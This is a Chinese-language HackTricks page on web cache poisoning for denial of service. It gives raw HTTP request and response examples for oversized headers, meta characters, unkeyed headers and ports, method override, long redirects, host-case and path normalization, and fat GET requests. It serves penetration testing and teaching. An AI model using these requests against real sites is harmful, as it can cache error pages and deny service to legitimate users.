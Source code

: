 # Cache Poisoning to DoS

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

{% hint style="danger" %}
在此页面中，您可以找到不同的变体，以尝试使 **Web 服务器对有效的缓存服务器请求** **响应错误**。
{% endhint %}

* **HTTP Header Oversize (HHO)**

发送一个请求，头部大小大于 Web 服务器支持的大小，但小于缓存服务器支持的大小。Web 服务器将以 400 响应进行响应，该响应可能会被缓存：
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTP Meta Character (HMC) & Unexpected values**

发送一个包含一些 **有害元字符** 的头部，例如 `\n` 和 `\r`。为了使攻击有效，您必须首先绕过缓存。
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
一个配置错误的头部可能只是 `\:` 作为头部。

如果发送了意外的值，这也可能有效，比如意外的 Content-Type:
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **未键入的头部**

一些网站会在请求中**看到某些特定的头部**时返回错误状态代码，例如带有 _X-Amz-Website-Location-Redirect: someThing_ 头部：
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTP 方法覆盖攻击 (HMO)**

如果服务器支持通过 `X-HTTP-Method-Override`、`X-HTTP-Method` 或 `X-Method-Override` 等头部更改 HTTP 方法，则可以请求一个有效页面，改变方法使得服务器不支持，从而导致错误响应被缓存：
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **未键入端口**

如果主机头中的端口在响应中被反射且未包含在缓存键中，则可以将其重定向到未使用的端口：
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **长重定向 DoS**

如以下示例所示，x 没有被缓存，因此攻击者可以利用重定向响应行为，使重定向发送一个如此大的 URL 以至于返回错误。然后，试图在没有未缓存的 x 密钥的情况下访问该 URL 的人将收到错误响应：
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **主机头部大小写规范化**

主机头部应该是不区分大小写的，但某些网站期望它是小写的，如果不是则会返回错误：
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **路径规范化**

某些页面在路径中发送数据 URLencode 时会返回错误代码，但缓存服务器会对路径进行 URLdecode 并存储 URLdecoded 路径的响应：
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

一些缓存服务器，如 Cloudflare，或 web 服务器，停止带有主体的 GET 请求，因此这可能被滥用来缓存无效响应：
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## 参考文献

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
